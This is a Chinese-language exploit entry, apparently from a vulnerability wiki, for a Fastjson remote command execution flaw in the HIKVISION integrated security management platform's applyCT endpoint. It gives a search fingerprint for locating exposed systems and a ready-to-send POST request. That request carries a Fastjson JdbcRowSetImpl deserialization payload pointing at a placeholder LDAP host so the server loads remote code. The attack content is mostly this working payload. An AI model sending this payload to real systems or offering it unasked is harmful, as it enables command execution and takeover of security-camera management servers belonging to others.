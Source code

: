 # HIKVISION 综合安防管理平台 applyCT Fastjson远程命令执行漏洞

## 漏洞描述

HIKVISION 综合安防管理平台 applyCT 存在低版本Fastjson远程命令执行漏洞，攻击者通过漏洞可以执行任意命令获取服务器权限

## 漏洞影响

<a-checkbox checked>HIKVISION 综合安防管理平台</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="HIKVISION-综合安防管理平台"</a-checkbox></br>

## 漏洞复现

登录页面

![img](/assets/PeiQi-Wiki/img/1647517887798-06e24b68-d89a-4223-aee3-50ca22081807.png)

验证POC

```javascript
POST /bic/ssoService/v1/applyCT 
Content-Type: application/json

{"a":{"@type":"java.lang.Class","val":"com.sun.rowset.JdbcRowSetImpl"},"b":{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"ldap://xxx.xxx.xxx.xxx/Basic/TomcatEcho","autoCommit":true},"hfe4zyyzldp":"="}
```

![img](/assets/PeiQi-Wiki/img/1661183408780-ae3f95b1-7c3b-42d9-b03a-f2f314309543.png)